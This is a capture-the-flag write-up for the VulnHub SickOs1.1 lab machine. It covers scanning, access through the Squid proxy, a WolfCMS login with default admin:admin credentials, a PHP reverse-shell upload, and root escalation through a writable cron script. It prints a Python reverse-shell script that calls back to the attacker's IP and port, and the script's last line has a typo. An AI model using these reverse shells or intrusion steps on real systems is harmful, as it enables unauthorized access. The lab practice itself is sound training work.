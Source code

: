 ```yaml
---
title:      "SickOs1.1 WriteUp"
date:       2016-10-29 18:00:00
tags: [pentesting,writeup,vulnhub,sickos]
---
```

Today we will be solving a boot2root virtual machine from [vulnhub](http://www.vulnhub.com) that promises to be very interesting.

According to its creator, it is an entry-level machine, similar to the ones we could face on the OSCP labs, so if anyone is interested in tackling this certification, this could be an interesting starting point.

## Reconnaissance
Once booted the virtual machine (loaded on VMWare Player, NAT network configuration), we start by locating the victim with __*netdiscover*__ from the attacking machine in the same virtual network (a Kali installation in my case).

{% include image.html
            img="images/sickos1/sickos1.1-1.png"
            title="Execution of the netdiscover tool"
            caption="IP addresses .1, .2 and .254 are used by VMWare for NAT administration, so the address of our victim is 172.16.159.129" %}

## Scanning
Our inseparable friend *__nmap__* could not miss this party. Initially, we launch a full scan on every TCP port to see what services may be running.

{% include image.html
            img="images/sickos1/sickos1.1-2.png"
            title="nmap scan"
            caption="Preliminary scan with nmap" %}

We have __an SSH server open and a SQUID server__. The SSH server does not seem to be a vulnerable version, so SQUID will be our main attack vector for now.

### Fiddling with the proxy
Inspecting the SQUID server via browser we find out that it is working as an access filter.

{% include image.html
            img="images/sickos1/sickos1.1-3.png"
            title="SQUID error message"
            caption="SQUID blocks our access" %}

Editing the browser settings enables us to access through the proxy server offered by SQUID.

{% include image.html
            img="images/sickos1/sickos1.1-4.png"
            title="Browser proxy settings"
            caption="From now on, all our browser traffic will go trough the proxy, so it will be possible to access new resources" %}

Once the proxy is configured, the next logical step is to start with well-known ports in order to determine whether there is any web server running.

### Web scanning
We find an apparently simple web page on TCP port 80.

{% include image.html
            img="images/sickos1/sickos1.1-5.png"
            title="Web server on port 80"
            caption="HTML page without much more to offer" %}

Now that we know that there is a server running, it is worth trying *__nikto__* on it.

{% include image.html
            img="images/sickos1/sickos1.1-6.png"
            title="First half of nikto scan"
            caption="First half of nikto scan, the proxy is used for redirecting the scan" %}


{% include image.html
            img="images/sickos1/sickos1.1-7.png"
            title="Second half of nikto scan"
            caption="Second half of nikto scan" %}

Among all the interesting information found, we can make two important points:

* There exists a __robots.txt__ file, which kindly requests to search engine spiders not to index some pages inside a website, so it could contain something interesting.
* Some CGI are vulnerable to __shellshock__.

Willing to continue on the scanning stage, I decided to investigate the __robots.txt__ file, having __shellshock__ as ace on my sleeve just in case.

The __robots.txt__ file contains the following:  
```
    User-agent: *  
    Disallow: /  
    Disallow: /wolfcms
```

### WolfCMS
The */wolfcms* route seems promising, let's take a look.

{% include image.html
            img="images/sickos1/sickos1.1-8.png"
            title="WolfCMS initial page"
            caption="WolfCMS initial page" %}

A content management system is always something interesting, as it could enable us to upload useful files to the server. After digging a bit inside the official documentation, we discover the administrator login page.

{% include image.html
            img="images/sickos1/sickos1.1-9.png"
            title="WolfCMS admin login"
            caption="WolfCMS admistrator login page" %}

## Intrusion

### Web service
After various combination of users and passwords, we are lucky with __admin:admin__. It is certainly not the most impressive way of breaking into a system, but human mistakes as easy credentials are always dangerous risks that play in favour of an attacker.

### Limited shell
We find an administration interface that allows to upload files to the */public* directory. As we already knew, what we have is an __Apache__ server on our hands (thanks *__nikto__*) so we will try with a __[PHP script](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) for a reverse TCP connection__.


{% include image.html
            img="images/sickos1/sickos1.1-10.png"
            title="WolfCMS administrator interface"
            caption="WolfCMS administrator interface" %}

The next thing to do is opening a listening port with *__netcat__* in order to receive the connection request from our victim.

{% include image.html
            img="images/sickos1/sickos1.1-11.png"
            title="nc -v -n -l -p 9999"
            caption="Open listening port on attacking machine" %}

After modifying the script in order to point at our IP address and TCP port, __we upload the file and invoke it from *http://172.16.159.129/wolfcms/public/php-reverse-shell.php*__ through the browser, and we will obtain a limited shell.

{% include image.html
            img="images/sickos1/sickos1.1-12.png"
            title="Receiving the reverse TCP shell"
            caption="Access to system with user __www-data__" %}

### Privilege Escalation
Once inside the server, we start snooping the directory tree until finding what will be the key to root.

{% include image.html
            img="images/sickos1/sickos1.1-13.png"
            title="ls /etc/cron.d; cat /etc/cron.d/automate"
            caption="Script executed by root every minute" %}

It appears that we have writing permission on a python script executed by user __root__ every minute through *crontab*. From here on, there are many ways of proceeding, but I chose to keep with the reverse shell technique.

Adapting __[this one-line command](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)__, we substitute the python file for the next script:

```python
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.16.159.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p.subprocess.call(["/bin/sh","-i"])
```
With the script ready, we only have to wait until it is executed and obtain a root shell.

{% include image.html
            img="images/sickos1/sickos1.1-14.png"
            title="-v -n -l -p 1234"
            caption="Obtaining root shell" %}

## Flag
Finally, we obtain the flag from the */root* directory.

{% include image.html
            img="images/sickos1/sickos1.1-15.png"
            title="Flag."
            caption="CTF flag" %}

## Conclusions
It is obviously not the hardest machine you can find out there, yet it is very complete and close to reality. All pentesting steps must be covered (skipping *footprinting*, naturally) and, as it is common, there is not only one way of clearing the obstacles to our goal. In my opinion, a funny machine, useful for dusting off old habits and skills.

<iframe width="560" height="315" src="https://www.youtube.com/embed/4DHHv5OuEzY" frameborder="0" allowfullscreen="1"></iframe>
